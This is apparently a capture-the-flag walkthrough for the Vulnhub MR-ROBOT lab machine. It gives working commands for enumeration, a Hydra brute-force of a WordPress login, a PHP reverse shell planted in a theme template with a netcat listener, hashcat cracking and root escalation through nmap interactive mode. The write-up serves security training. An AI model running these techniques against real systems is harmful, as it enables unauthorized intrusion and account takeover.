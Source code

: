 # This is the write up for the Vulnhub box MR-ROBOT: 1 

Box Ip Address: 10.38.1.112

Attacking Machine Ip: 10.38.1.110
## **Information Gathering**
---
Starting with an Nmap port Scan we see this output:

![](2022-04-28-20-51-11.png)

The two open ports are the HTTP port 80 and the HTTPS port of 443. These two ports being open, we can assume that this is a web server.

Upon navigating to the server address within a web browser we are greeted with this:

![](2022-04-28-20-55-54.png)

After poking around with the listed commands and running into dead-ends we can view the `/robots.txt file` which gives us this: 

![](2022-04-28-21-09-55.png)

It looks like we have the first key! If we insert `key-1-of-3.txt` where `robots.txt` was we are able to view the key: `073403c8a58ald80d943455fb30724b9`

![](2022-04-28-21-17-08.png)


After navigating back to `robots.txt` we can use this command we can pull down the dictionary file.
```
wget 10.38.1.112/fsocity.dic
```

Attempting to `cat` the file we can see there is a ton of scrolling entries. If we instead pipe the command to `wc -l` we see there are 858,160 lines in this file. 

![](2022-04-28-21-30-48.png)

If we use `cat` and pipe the command to `grep -i "robot"` we see that the file repeats itself.

![](2022-04-28-21-41-41.png)


Let's use this command to count the number of unique entries
```
cat fsocity.dic | sort -u | wc -l
```

After doing so we see there are 11,451 unique entries. We will now use this command to save these entries into a new dictionary file
```
cat fsocity.dic | sort -u >> new_fsocity.dic
```

Now lets use `dirb` to see if we can find any more directories in this page
```
dirb http://10.38.1.112 /usr/share/wordlists/dirb/common.txt
```

This is the output of that command

![](2022-04-28-22-06-39.png)

After running into the dead-end that was the `/readme` we can turn our attention to the `/login/`. Which we then see a login screen for WordPress

![](2022-04-28-22-16-59.png)

When we viewed the `fsocity.dic` file earlier, one of the first entries that seemed like it could be a username was `Elliot`  

![](2022-04-28-22-18-37.png)

If we attempt to brute force our way into the `Elliot` username and use the password `password` we see that Elliot is, in fact, the name of a user.

![](2022-04-28-22-20-19.png)

Now that we have a user we can use a `Hydra` command to try and brute force his password. We know that logins use a POST request so our structure looks like this:
```
hydra -vv -l elliot -P /home/kali/Desktop/new_fsocity.dic 10.38.1.112 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' 
```

And after about 5 minutes we have this nice message: 

![](2022-04-28-22-48-28.png)

So now we have `elliot's` password, which is: `ER28-0652`


## **Exploitation**
---
When looking for these flags, the easiest way I can think of is to somehow get into a shell. Knowing the website is run on `.php` we can do a quick google search for `"php reverse shell kali linux location"` we find the location of the reverse shell code at `/usr/share/laudenum/php/php-reverse-shell.php`

we need to nano this code and make soime changes prior to uploading it to wordpress. These are the changes we need to make

![](2022-04-28-23-29-34.png)

ip needs to be set to our kali box `ip` of `10.38.1.110` and the `port` can be set to `443`

Next we need to open a new terminal and start a NetCat listener for port 443
```
nc -lnvp 443
```

Navigating to appearance/editor in the wordpress site and using the `404 template` we can paste our new php script.

![](2022-04-28-23-32-50.png)

Once we save the script we can make a new tab and put the URL as `10.38.1.112/hi` to trigger the netcat listener which gives us our shell access. 

![](2022-04-28-23-34-46.png)

Through a series of directory traversals we now have access to `key-2-of-3.txt` and `password.raw-md5`

![](2022-04-28-23-38-04.png)

If we try to view the key file we get permission denied. This is due to the owner of the file being the user `robot`

if we `cat` the password file we get this md5 hash

![](2022-04-28-23-41-58.png)

We can use the hashcat tool to crack this password hash. To do this, we need to copy the contents of `password.raw-md5` to our kali desktop, delete the `robot:`, and run this command
```
hashcat -m 0 password.raw-md5 /usr/share/wordlists/rockyou.txt
```

After about one minute hashcat will have cracked the password and we see this:

![](2022-04-28-23-58-47.png)

So for the user `robot` the password is `abcdefghijklmnopqrstuvwxyz`

Now from our reverse shell we can `su` to the user `robot` and view the file but doing so yields this error: 

![](2022-04-29-00-08-05.png)

After googling this problem, we can actually spawn a bash shell using python and this command.
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
Doing so will get us a bash terminal where we then can `su` into the user `robot`

We then can `cat` the key file and see key 2 is `822c73956184f694993bede3eb39f959`

![](2022-04-29-00-15-16.png)

# Escalation

Moving onto the last key we can make an assumption that we must elevate our permiissions to be `root` 

Using this command we can see what version of nmap we are running:
```
nmap --version
```

Oh look, we are running an older version of nmap.

![](2022-04-29-10-35-56.png)

After a quick search online we find out we can use this version of nmap in it's interactive mode to escalate our privileges to root.
```
nmap --interactive
```
Then once inside we can run
```
!/bin/bash
```
We see by doing this we can get the normal bash shell. Let's exit and try a different shell
```
!sh
```
Then
```
whoami
```
It looks like that gave us the root access we need!!

![](2022-04-29-10-41-45.png)

If we navigate to `/root` and look in the directory we see the file for `key-3-of-3.txt`

![](2022-04-29-10-43-20.png)

If we `cat` the file we are rewarded with our third and final key!!!

![](2022-04-29-10-44-17.png)


# Congratulations!!!

#### Thanks so much for coming along on this journey with me